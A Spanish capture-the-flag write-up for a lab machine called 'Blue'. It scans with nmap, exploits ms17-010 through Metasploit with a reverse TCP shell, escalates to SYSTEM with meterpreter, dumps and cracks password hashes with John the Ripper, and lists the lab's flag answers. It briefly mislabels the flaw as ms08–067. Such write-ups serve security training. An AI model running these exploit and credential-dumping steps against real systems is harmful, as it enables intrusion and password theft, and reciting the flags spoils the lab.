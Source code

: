 # Blue

## nmap

Primero hacemos un escaneo de los puertos abiertos y vulnerables con `nmap`:

```
nmap -sV --script vuln -v 10.10.223.217
```

![Escaneo de puertos](images/Pasted%20image%2020250220183330.png)

## Explotación del exploit

Tenemos al menos 3 puertos abiertos con un número de menos de 1000.

Y estos son los resultados del script:

![Resultados del script](images/Pasted%20image%2020250220183432.png)

Nos indica que puede haber una vulnerabilidad, concretamente la de `CVE-2017-0143`. La máquina es vulnerable a `ms08–067`.

Iniciamos la consola de metasploit.

```
msfconsole
```

Buscamos la vulnerabilidad.

```
search ms17-010
```

![Vulnerabilidad ms17-010](images/Pasted%20image%2020250220184127.png)

Seleccionamos el módulo.

```
use 0
```

Mostramos las opciones a configurar para el exploit.

```
options
```

![Opciones de exploit](images/Pasted%20image%2020250220184233.png)

Configuramos la IP del host remoto y la IP local que obtuvimos de la VPN para conectarnos a la máquina.

```
set RHOST IP_Maquina_Vulnerable
set LHOST IP_Maquina_Kali
```

![Configuración de IP](images/Pasted%20image%2020250220184424.png)

Cargamos el payload que vamos a utilizar.

```
set payload windows/x64/shell/reverse_tcp
```

E iniciamos el exploit:

```
run
```

![Ejecución del exploit](images/Pasted%20image%2020250220184633.png)

Tardará unos minutos en completarse.

![Tiempos de ejecución](images/Pasted%20image%2020250221114033.png)

Le damos a `Ctrl + Z` para dejar el proceso en el background.
## Escala de privilegios

Ahora vamos a convertir la shell a meterpreter shell.

```
use post/multi/manage/shell_to_meterpreter
```

![Shell a meterpreter](images/Pasted%20image%2020250220185116.png)

Con el comando `SESSIONS`vemos las sesiones activas de fondo.

![Sesiones activas](images/Pasted%20image%2020250221113308.png)

Asignamos la sesión:

```
set session 1
set LHOST tun0
```

Y ejecutamos el exploit:

```
run
```

Seleccionamos la sesión que nos ha abierto nueva el exploit.

```
sessions 2
```

![Seleccionando la sesión](images/Pasted%20image%2020250221114739.png)

Hemos escalado hasta NT authority en el sistema.

![Escalada de privilegios](images/Pasted%20image%2020250221114824.png)

## Crackeando las contraseñas
Ponemos en el background la sesión con `Ctrl + Z` y listamos los procesos.

```
ps
```

![Listado de procesos](images/Pasted%20image%2020250221115020.png)

Migramos el proceso de `spoolsv.exe`.

```
migrate 1292
```

![Migrando proceso](images/Pasted%20image%2020250221115735.png)

Dumpeamos las contraseñas del sistema.

```
hashdump
```

![Dump de contraseñas](images/Pasted%20image%2020250221115838.png)

Copiamos estos resultados a un fichero llamado `hash.txt` y usamos john the ripper para crackear las contraseñas.

```
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![Crackeo de contraseñas](images/Pasted%20image%2020250221120308.png)

## Flags

Obtenemos la primera flag de la siguiente manera:

![Primera flag](images/Pasted%20image%2020250221120526.png)

```
flag{access_the_machine}
```

La segunda flag se encuentra aquí:

![Segunda flag](images/Pasted%20image%2020250221120740.png)

```
flag{sam_database_elevated_access}
```

Finalmente, la localización de la última flag es en documentos:

![Última flag](images/Pasted%20image%2020250221120846.png)

```
flag{admin_documents_can_be_valuable}
```



































